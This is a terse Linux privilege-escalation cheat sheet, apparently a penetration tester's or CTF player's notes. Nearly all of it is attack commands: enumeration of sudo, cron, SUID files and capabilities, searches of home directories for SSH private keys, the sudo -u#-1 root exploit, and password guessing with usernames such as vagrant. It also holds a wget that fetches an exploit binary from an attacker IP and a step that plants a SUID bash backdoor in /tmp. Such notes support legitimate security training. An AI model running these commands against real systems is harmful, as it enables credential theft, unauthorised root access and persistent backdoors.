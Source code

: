 ```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'

grep bash /etc/passwd

id

find / -group <groups> 2>/dev/null

history

sudo -l

sudo -V | grep version
sudo -u#-1 /bin/bash

find / -name id_rsa 2>/dev/null
grep -rnw "PRIVATE KEY" /home/* 2>/dev/null | grep ":1"
grep -rnw "ssh-rsa" /home/* 2>/dev/null | grep ":1"

find / -type f -perm -04000 -ls 2>/dev/null

ls -la /etc/passwd /etc/shadow /etc/security/opasswd

cat /etc/crontab
crontab -l
ls /etc/cron.d
find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null

find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;
getcap -r / 2>/dev/null
/usr/sbin/getcap -r / 2>/dev/null

cat /etc/exports
cat /etc/fstab

ip a
ifconfig
netstat -r
ip route
ss -anp
routel
cat /etc/iptables/rules.v4

cat .bashrc

ps -aux
ps -aux | grep cron        <-- search for "root   /usr/sbin/cron -f"

realm list
ps -ef | grep -i "winbind\|sssd"

ls -l /tmp /var/tmp /dev/shm /opt

logrotate -v

ps aux | grep tmux

dpkg -l
```
1. Snoop on processes using pspy - some cron jobs may be running in the background
2. Research and enumerate literally every cron job running
3. su into other users using their usernames as passwords; vagrant:vagrant
4. Run PEAS and LinEnum
```shell 
wget 10.10.14.18/sudodoom
```

```bash
cp /bin/bash /tmp/bash; chmod +s /tmp/bash
```